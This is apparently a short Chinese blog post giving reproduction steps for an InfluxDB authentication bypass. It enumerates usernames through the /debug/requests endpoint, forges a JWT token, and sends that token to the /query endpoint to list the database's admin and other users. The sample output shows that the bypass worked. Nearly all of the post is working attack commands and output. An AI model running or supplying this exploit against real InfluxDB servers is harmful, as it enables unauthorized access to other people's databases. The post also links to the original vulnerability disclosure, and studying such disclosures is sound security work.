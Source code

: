 ```yaml
---
layout:     post
title:      "influxdb认证绕过0day"
subtitle:   " 通过jwt token绕过认证"
date:       2019-05-31 15:00:00
author:     "tanjiti"
header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - influxdb
    - 0 day
    - 认证绕过
---
```


# 0day复现步骤:

## 1. 查找user name
`curl -G "http://xxx:8086/debug/requests"`

## 2. 构造jwt token

[在线构造地址](https://jwt.io/)

![jwt_token](/img/influxdb0day.png)


## 3. 构造认证头

`curl -G 'http://xxx:8086/query' --data-urlencode 'q=show users' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNTU5Mjg0OTM1fQ.tUClNot9LgStSw57n26DSn-3NPkBiHizk-XOHMfJJJw'`

返回

`{"results":[{"statement_id":0,"series":[{"columns":["user","admin"],"values":[["admin",true],["read",false],["write",false],["telegraf",true]]}]}]}`

成功

>[JWT说明](http://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)

>[0day原文](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day)
